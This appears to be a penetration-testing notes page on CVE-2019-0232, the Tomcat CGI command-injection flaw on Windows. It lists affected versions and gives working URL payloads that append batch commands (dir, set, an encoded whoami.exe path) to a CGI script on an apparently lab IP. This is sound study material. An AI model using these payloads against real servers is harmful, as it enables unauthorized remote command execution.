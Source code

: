 ```yaml
---
icon: cat
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# CVE-2019-0232 - CGI RCE

`CVE-2019-0232` is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the `enableCmdLineArguments` feature enabled.

An attacker can exploit this vulnerability by exploiting a command injection flaw resulting from a Tomcat CGI Servlet input validation error, thus allowing them to execute arbitrary commands on the affected system.

Versions `9.0.0.M1` to `9.0.17`, `8.5.0` to `8.5.39`, and `7.0.0` to `7.0.93` of Tomcat are affected.

## Exploitation

After finding a CGI to exploit (see [#finding-cgi-scripts](../../../../intelligence/application-enumeration/tomcat-enumeration.md#finding-cgi-scripts "mention")), we can exploit `CVE-2019-0232` by appending our own commands through the use of the batch command separator `&`.

{% code title="HTTP Request from browser" %}
```http
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```
{% endcode %}

This URL returns the output for the `dir` batch command, however trying to run other common windows command line apps, such as `whoami` might not return an output.

Retrieve a list of environmental variables by calling the `set` command:

{% code title="HTTP Request from browser" %}
```http
http://10.129.204.227:8080/cgi/welcome.bat?&set
```
{% endcode %}

From the list, we can see that the `PATH` variable has been unset, so we will need to hardcode paths in requests:

{% code title="HTTP Request from browser" %}
```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```
{% endcode %}

Ensure that the URLs are properly encoded.
